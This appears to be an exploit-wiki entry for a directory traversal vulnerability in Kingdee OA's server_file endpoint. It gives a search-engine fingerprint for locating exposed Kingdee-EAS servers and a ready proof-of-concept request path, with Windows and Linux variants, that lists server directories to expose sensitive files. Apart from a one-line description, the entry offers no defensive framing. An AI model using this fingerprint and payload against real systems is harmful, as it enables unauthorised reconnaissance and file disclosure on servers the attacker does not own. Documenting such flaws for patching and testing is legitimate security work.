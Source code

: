 # Kingdee OA server_file directory traversal vulnerability

## Vulnerability Description

Kingdee OA server_file has a directory traversal vulnerability. Attackers can obtain server sensitive information through directory traversal.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Kingdee OA</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="Kingdee-EAS"</span>

## Vulnerability reappears

The login interface is



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210603132948792.png)

Vulnerable POC

```plain
/appmonitor/protected/selector/server_file/files?folder=/&suffix=
Windows服务器

appmonitor/protected/selector/server_file/files?folder=C://&suffix=

Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210603133136331.png)